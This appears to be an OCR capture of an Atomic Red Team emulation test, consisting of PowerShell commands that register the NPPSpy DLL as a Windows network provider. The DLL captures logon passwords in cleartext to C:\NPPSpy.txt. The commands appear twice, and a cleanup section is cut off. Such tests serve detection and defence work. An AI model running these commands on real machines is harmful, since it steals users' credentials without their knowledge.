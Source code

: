 ```
                                                                                                $path = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order" -Name PROVIDERORDER                                                                                                                       $UpdatedValue = $Path.PROVIDERORDER + ",NPPSpy"                                                                                                                                                                                         Set-ItemProperty -Path $Path.PSPath -Name "PROVIDERORDER" -Value $UpdatedValue                                                                                                                                                          $rv = New-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy -ErrorAction Ignore                                                                                                                                                 $rv = New-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -ErrorAction Ignore                                                                                                                                 $rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "Class" -Value 2 -ErrorAction Ignore                                                                                                  $rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "Name" -Value NPPSpy -ErrorAction Ignore                                                                                              $rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "ProviderPath" -PropertyType ExpandString -Value "%SystemRoot%\System32\NPPSPY.dll" -ErrorAction Ignore                               echo "[!] Please, logout and log back in. Cleartext password for this account is going to be located in C:\NPPSpy.txt"                                                                                                                  Command (with inputs):                                                                                                                                                                                                                  Copy-Item "C:\AtomicRedTeam\atomics\..\ExternalPayloads\NPPSPY.dll" -Destination "C:\Windows\System32"                                                                                                                                  $path = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order" -Name PROVIDERORDER                                                                                                                       $UpdatedValue = $Path.PROVIDERORDER + ",NPPSpy"                                                                                                                                                                                         Set-ItemProperty -Path $Path.PSPath -Name "PROVIDERORDER" -Value $UpdatedValue                                                                                                                                                          $rv = New-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy -ErrorAction Ignore                                                                                                                                                 $rv = New-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -ErrorAction Ignore                                                                                                                                 $rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "Class" -Value 2 -ErrorAction Ignore                                                                                                  $rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "Name" -Value NPPSpy -ErrorAction Ignore                                                                                              $rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "ProviderPath" -PropertyType ExpandString -Value "%SystemRoot%\System32\NPPSPY.dll" -ErrorAction Ignore                               echo "[!] Please, logout and log back in. Cleartext password for this account is going to be located in C:\NPPSpy.txt"                                                                                                                                                                                                                                                                                                                                                          Cleanup Commands:                                                                                                                                                                                                                       Command:                                                                                                                                                                                                                                $cleanupPath = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order" -Name PROVIDERORDER                                                                                                                $cleanupUpdatedValue = $cleanupPath.PROVIDERORDER                                                                                                                                                                                       $cleanupUpdatedValue = $cleanupUpdatedVa
```